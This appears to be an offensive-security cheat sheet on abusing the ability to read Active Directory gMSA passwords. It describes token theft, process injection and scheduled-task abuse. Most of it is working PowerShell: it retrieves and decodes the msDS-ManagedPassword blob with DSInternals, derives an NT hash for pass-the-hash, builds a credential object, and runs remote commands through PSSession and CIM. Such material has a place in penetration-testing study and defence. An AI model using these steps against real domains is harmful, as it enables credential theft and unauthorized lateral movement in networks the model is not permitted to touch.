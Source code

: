 ### Abusing the Ability to Read GMSA Passwords

#### Overview
There are several ways to abuse the ability to read the Group Managed Service Account (gMSA) password. These methods exploit the intended behavior of gMSAs when they are logged on to computers or when you have access to their credentials. Below is a professional, streamlined cheat sheet outlining these methods and their execution.

---

### Abuse Scenarios

#### 1. GMSA Logged On to a Computer
- **Description**: If the gMSA is currently logged on to a computer account with permission to retrieve its password:
  - **Action**: Steal the token from the process running as the gMSA.
  - **Alternative**: Inject into the process running as the gMSA.

#### 2. GMSA Not Logged On to a Computer
- **Description**: If the gMSA is not logged on to a computer:
  - **Action**: Create a scheduled task or service to run as the gMSA.
  - **Execution**: The computer account will start the task or service as the gMSA, allowing you to abuse the gMSA logon in the same manner as a standard user.
  - **Reference**: See the "HasSession" help modal for additional details on this technique.

---

### Methods to Retrieve gMSA Passwords

#### **Using Active Directory and DSInternals PowerShell Modules**

1. Save the gMSA password blob to a variable:
   ```powershell
   $gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
   $mp = $gmsa.'msDS-ManagedPassword'
   ```

2. Decode the data structure using the DSInternals module:
   ```powershell
   ConvertFrom-ADManagedPasswordBlob $mp
   ```

3. Build an NT-Hash for Pass-the-Hash (PTH):
   ```powershell
   (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
   ```

4. Alternatively, create a Credential Object with the plain password:
   ```powershell
   $cred = New-Object System.Management.Automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
   ```

---

### Using Credentials

#### **Option 1: Create a New Session**
1. Start a new session:
   ```powershell
   $session = New-PSSession -ComputerName 192.168.50.73 -Credential $cred
   ```

2. Enter the session:
   ```powershell
   Enter-PSSession -Session $session
   ```

3. Run commands remotely:
   ```powershell
   Invoke-Command -Session $session -ScriptBlock { whoami; hostname }
   ```

#### **Option 2: Run Commands via CIM**
1. Build the command:
   ```powershell
   $Command = 'whoami'
   Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
   ```
